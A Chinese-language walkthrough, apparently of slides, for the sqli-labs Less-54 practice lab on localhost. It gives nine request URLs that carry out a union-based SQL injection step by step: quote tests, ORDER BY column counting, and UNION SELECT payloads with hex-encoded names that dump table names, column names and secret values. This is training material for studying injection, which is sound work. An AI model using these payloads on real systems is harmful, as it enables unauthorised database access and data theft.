

# Less-54
从本关开始，开始慢慢偏向于实际环境：
本关中是对输入的次数做了限制，必须在10次请求之内获取信息，否则会刷新表名
1. http://127.0.0.1/sqli/Less-54/index.php?id=1 返回正常的信息
2. http://127.0.0.1/sqli/Less-54/index.php?id=1’  有错误，但是没有回显信息
3. http://127.0.0.1/sqli/Less-54/index.php?id=1‘ --+ 返回正常
4. http://127.0.0.1/sqli/Less-54/index.php?id=1‘ order by 1 --+ 返回正常
5. http://127.0.0.1/sqli/Less-54/index.php?id=1‘ order by 4 --+ 返回错误
6. http://127.0.0.1/sqli/Less-54/index.php?id=1‘ order by 3 --+ 返回正常，说明存在三列
7. http://127.0.0.1/sqli/Less-54/index.php?id=-1‘ union select 1,2,group_concat(table_name) from  information_schema.tables where table_schema =0x4348414c4c454e474553 --+  爆出表名，因为我们已经知道数据库的名字是challenges
8. http://127.0.0.1/sqli/Less-54/index.php?id=-1‘ union select 1,2,group_concat(column_name) from information_schema.columns where table_name =0x6a7a3063323772396c38    --+ 取出所有的列名
9. http://127.0.0.1/sqli/Less-54/index.php?id=-1‘ union select 1,2,group_concat( concat_ws(0x7e,id,sessid,secret_BTL5,tryy)) from challenges. jz0c27r9l8 --+ 取出所有的数据